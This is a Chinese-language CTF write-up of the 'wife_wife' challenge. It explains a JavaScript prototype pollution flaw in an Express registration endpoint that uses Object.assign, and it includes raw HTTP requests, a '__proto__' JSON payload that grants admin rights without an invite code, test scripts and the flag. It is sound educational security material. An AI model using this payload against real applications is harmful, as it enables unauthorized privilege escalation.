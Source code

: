# wife_wife

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=e5ba95f8-884a-11ed-ab28-000c29bc20bf&task_category_id=3)

网站可以登录可以注册，除此之外没别的了。随便注册个用户登录也只能得到假flag。注册界面抓个包，包的格式如下：

```
POST /register HTTP/1.1
Host: 61.147.171.105:49801
Content-Length: 47
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://61.147.171.105:49801
Referer: http://61.147.171.105:49801/register.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"username":"b","password":"b","isAdmin":false}
```

直接把false改成true重发是没用的。毫无思路，查了[wp](https://xia0ji233.pro/2023/01/01/Nepnep-CatCTF2022/#wife%F0%9F%92%83)才觉经验还是不足。这题就是个普通的原型链污染，只不过题目是黑盒，需要自己测试。看wp里给的关键部分源码就能发现问题了：

```js
app.post('/register', (req, res) => {
    let user = JSON.parse(req.body)
    if (!user.username || !user.password) {
        return res.json({ msg: 'empty username or password', err: true })
    }
    if (users.filter(u => u.username == user.username).length) {
        return res.json({ msg: 'username already exists', err: true })
    }
    if (user.isAdmin && user.inviteCode != INVITE_CODE) {
        user.isAdmin = false
        return res.json({ msg: 'invalid invite code', err: true })
    }
    let newUser = Object.assign({}, baseUser, user) //就是这里，原型链污染
    users.push(newUser)
    res.json({ msg: 'user created successfully', err: false })
})
```

查阅资料，原来[Object.assign](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Object/assign)也能触发原型链污染。`let newUser = Object.assign({}, baseUser, user)`的作用是把baseUser和user的属性合并后拷贝到`{}`中，即newUser是baseUser和user的集合体。baseUser猜测是user类似父类的东西，user应该就是上面的`{"username":"b","password":"b","isAdmin":false}`部分了。直接bp发包：

```
POST /register HTTP/1.1
Host: 61.147.171.105:49801
Content-Length: 62
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://61.147.171.105:49801
Referer: http://61.147.171.105:49801/register.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"username":"e","password":"e","__proto__":{"isAdmin":true}}
```

然后登录注册的用户即可得到flag。内部发生了类似下面的情况：

```js
let baseUser={};
let data='{"username":"e","password":"e","__proto__":{"isAdmin":true}}';
let user= JSON.parse(data);
console.log(user);
console.log(user.isAdmin); //这里输出的是undefined，故不会进入下面的if语句强制将user.isAdmin设为false
let INVITE_CODE="whatever";
if (user.isAdmin && user.inviteCode != INVITE_CODE) {
        user.isAdmin = false
}
let newUser = Object.assign({}, baseUser, user) //触发原型链污染
console.log(newUser.isAdmin);
```

看了这篇[文章](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)相信这道题就很简单了。原型链污染不太准确的理解就是“父类影响子类”，一个子类继承于父类后，父类有什么属性子类就有什么属性。比如这里我们的注册信息data按照json的形式传入，JSON.parse后得到一个对象。这个对象有3个键名，username，password和__proto__。比较容易搞混的地方来了，这个__proto__是键名，单纯是个键名，值为{"isAdmin":true}，而不是类的原型对象prototype。这点很重要，如果我们把测试代码稍微修改一下：

```js
let baseUser={};
//let data='{"username":"e","password":"e","__proto__":{"isAdmin":true}}';
//let user= JSON.parse(data);
let user={"username":"e","password":"e","__proto__":{"isAdmin":true}};
console.log(user);
console.log(user.isAdmin); //输出true，导致进入下面的if语句将isAdmin强行改为false
let INVITE_CODE="whatever";
if (user.isAdmin && user.inviteCode != INVITE_CODE) {
        user.isAdmin = false
}
let newUser = Object.assign({}, baseUser, user) //那这里的原型链污染也没用了，子类后定义的属性值会覆盖父类的
console.log(newUser.isAdmin);
```

这里的user直接就是个类，“\_\_proto\_\_“不是键名，而是类的原型对象prototype。这样就会有两个问题，第一，当`console.log(user.isAdmin);`尝试读取isAdmin属性时会顺着上去找父类的，得到true，进入if语句强制赋值全部白给；第二，\_\_proto\_\_不是键名，后面Object.assign不会拷贝到newUser上。总之就是记住，原型链污染需要在JSON解析的情况下进行。

最后`Object.assign({}, baseUser, user)`把user的键全部拷贝给newUser。现在newUser就有isAdmin属性了，还是true，自然就能拿到flag了。

## Flag
> CatCTF{test_flag_h0w_c@n_I_l1ve_w1th0ut_nilou}